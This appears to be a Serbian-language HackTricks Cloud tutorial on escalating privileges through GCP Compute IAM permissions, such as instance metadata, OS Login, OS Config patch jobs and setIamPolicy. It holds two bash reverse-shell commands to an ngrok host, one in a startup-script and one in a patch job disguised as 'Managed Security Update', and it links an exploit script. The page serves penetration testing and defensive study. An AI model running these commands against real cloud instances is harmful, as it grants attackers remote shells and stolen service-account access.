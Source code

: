 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (mreži) u GCP proverite:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Imajte na umu da je za izvođenje svih napada na eskalaciju privilegija koji zahtevaju modifikaciju metapodataka instance (kao što je dodavanje novih korisnika i SSH ključeva) **potrebno da imate `actAs` dozvole nad SA koja je povezana sa instancom**, čak i ako je SA već povezana!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **modifikovati** informacije o **metapodacima** **instance** i promeniti **ovlašćene ključeve korisnika**, ili **napraviti** **novog korisnika sa sudo** dozvolama. Stoga, moći ćete da se prijavite putem SSH na bilo koju VM instancu i ukradete GCP Service Account sa kojom instanca radi.\
Ograničenja:

* Imajte na umu da GCP Service Accounts koji rade u VM instancama po defaultu imaju **veoma ograničen opseg**
* Moraćete da budete **u mogućnosti da kontaktirate SSH** server da biste se prijavili

Za više informacija o tome kako iskoristiti ovu dozvolu proverite:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvesti ovaj napad dodavanjem novog startup-skripta i ponovnim pokretanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ova dozvola daje **iste privilegije kao prethodna dozvola** ali za specifične instance umesto za ceo projekat. **Iste eksploatacije i ograničenja kao za prethodni deo se primenjuju**.

### `compute.instances.setIamPolicy`

Ova vrsta dozvole će vam omogućiti da **dodelite sebi ulogu sa prethodnim dozvolama** i eskalirate privilegije zloupotrebljavajući ih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Nećete imati root privilegije unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA vezanom za VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Imaćete **root privilegije** unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA vezanom za VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **napraviti virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisa pristupajući metapodacima kako bi se eskalirale privilegije.

Eksploatacijski skript za ovu metodu može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate dozvole **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** možete kreirati [**patch job ili deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i dobijete izvršenje koda na svim instancama za obradu unutar projekta.

Napomena da trenutno **ne trebate `actAs` dozvolu** nad SA vezanom za instancu.

Ako želite ručno da iskoristite ovo, potrebno je da kreirate ili [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ili** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Za patch job pokrenite: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Da biste implementirali ispravku:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) se ranije mogao koristiti za iskorišćavanje ove pogrešne konfiguracije (ali sada ne radi).

**Napadač takođe može zloupotrebiti ovo za postizanje trajnosti.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatne dozvole** za računarsku sliku.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatne dozvole** za snimak diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatne dozvole** za disk.

### Obilaženje pristupnih opsega

Prateći ovu vezu, pronaći ćete neke [**ideje za pokušaj obilaženja pristupnih opsega**](../).

### Lokalno eskaliranje privilegija u GCP Compute instanci

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
